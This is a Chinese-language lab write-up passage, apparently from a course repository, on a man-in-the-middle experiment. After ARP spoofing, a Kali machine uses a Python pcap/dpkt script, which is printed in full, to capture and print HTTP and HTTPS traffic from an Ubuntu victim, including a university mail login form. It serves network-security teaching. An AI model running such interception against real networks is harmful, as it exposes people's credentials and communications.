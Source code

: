 ### 2. 中间人攻击--信息窃听与篡改
在上一部分实验中，通过arp欺骗，Kali称为了Ubuntu和网关之间通信的中间人，作为中间人Kali便能够对通信双方之间的信息进行窃听和篡改。

首先来通过一个简单的实验来窃听Ubuntu发向网关的请求。因为Ubuntu发给网关的请求都是经过Kali中间人代为转发，所以Kali只需要抓取通过自身的数据包就能够窃听Ubuntu发出的请求。直接使用抓包软件就能够完成窃听，如果要对数据做精确的过滤和提取则可以使用python脚本。

这里使用python的转包工具包pcap和解析数据包工具包dpkt来将http请求直接打印出来，如果要过滤更多的请求信息，利用python的正则表达式等工具对数据直接处理即可。

由于Kali上自带了很多依赖工具，如果在其他平台上进行实验可能还需要安装更多的依赖，在Kali下安装工具包的命令为：
```
sudo apt-get install libpcap-dev
pip install pypcap
pip install dpkt
```
抓包的脚本：./codes/wiretap.py
```python
import pcap
import dpkt
import sys
from optparse import OptionParser

def get_interface():
    usage = 'Usage: [-i interface]'
    parser = OptionParser(usage)
    parser.add_option('-i', dest='interface', help='Specify an interface')
    (options, args) = parser.parse_args()
    if not options.interface:
        parser.print_help()
        sys.exit(0)
    return options.interface

def wiretap(interface):
    worker = pcap.pcap(interface)
    worker.setfilter('tcp port 443 or tcp port 80')
    for (ptime, pdate) in worker:
        packet = dpkt.ethernet.Ethernet(pdate)
        if packet.data.__class__.__name__ == 'IP' \
            and packet.data.data.__class__.__name__ == 'TCP' \
            and (packet.data.data.dport == 443 or packet.data.data.dport == 80):
            http_data = packet.data.data.data
            print http_data

if __name__ == '__main__':
    interface = get_interface()
    wiretap(interface)
```
运行这个脚本。
![wiretap](https://github.com/DBullet/UCore/blob/master/lab5/image004.png)
代码将通过80端口（HTTP）和443端口（HTTPS）的TCP数据打印了出来。Ubuntu分别访问了清华的邮箱服务（HTPP）和百度（HTTPS），这里请留意以下登录表单的账号处域名为‘mails.tsinghua.edu.cn’，接下来的实验会对其进行篡改。